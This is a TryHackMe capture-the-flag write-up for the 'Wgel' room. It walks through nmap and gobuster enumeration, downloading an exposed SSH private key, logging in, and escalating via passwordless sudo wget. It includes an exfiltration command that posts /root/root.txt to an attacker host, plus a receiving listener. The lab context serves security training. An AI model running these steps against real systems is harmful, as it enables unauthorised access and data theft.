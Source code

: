 
```md
# THM - Wgel CTF Writeup

## 🏴 Challenge Overview
**Room Name:** Wgel  
**Difficulty:** Easy  
**Category:** Linux Privilege Escalation / Enumeration  
**Platform:** [TryHackMe](https://tryhackme.com)  

---

## 📜 Summary
This machine involved:
- Enumerating services with **Nmap**  
- Discovering a hidden directory using **Gobuster**  
- Retrieving an SSH private key from a `/sitemap` subdirectory  
- Logging in via SSH  
- Exploiting **wget** misconfiguration to read the root flag  

---

## 🚀 Walkthrough

### 1️⃣ Enumeration
First, scan the target IP to discover open ports and running services:
```bash
nmap -sV <IP>
```
**Findings:**
- **Port 22 (SSH)** — Open, running OpenSSH  
- **Port 80 (HTTP)** — Apache web server running  

---

### 2️⃣ Finding a Username
Inspecting the HTTP service revealed a username that could be used later for SSH access.  

---

### 3️⃣ Directory Bruteforcing
Run **Gobuster** to enumerate directories:
```bash
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt
```
Found:  
```
/sitemap
```

---

### 4️⃣ Digging Deeper in `/sitemap`
At first, `/sitemap` seemed empty. Running Gobuster again on `/sitemap`:
```bash
gobuster dir -u http://<IP>/sitemap/ -w /usr/share/wordlists/dirb/common.txt
```
Discovered:
```
/id_rsa
```

---

### 5️⃣ Retrieving the SSH Key
Downloaded the SSH private key from:
```
http://<IP>/sitemap/id_rsa
```
Fixed key permissions:
```bash
chmod 600 id_rsa
```

---

### 6️⃣ SSH Access
Logged in using the discovered username and private key:
```bash
ssh -i id_rsa <username>@<IP>
```
After successful login, retrieved the **user flag**:
```bash
cat user.txt
```

---

### 7️⃣ Privilege Escalation to Root
Check available `sudo` privileges:
```bash
sudo -l
```
Found that **wget** can be run as root without a password.

---

### 8️⃣ Exfiltrating the Root Flag
Used `wget` to send the root flag to my local machine:
```bash
sudo /usr/bin/wget --post-file=/root/root.txt http://<your-ip>:<port>
```
On attacker machine, started a Python HTTP server to receive the file:
```bash
python3 -m http.server 4444
```
**Root flag received!** 🏆

---

## 🎯 Flags Obtained
- **User Flag:** ✅  
- **Root Flag:** ✅  

---
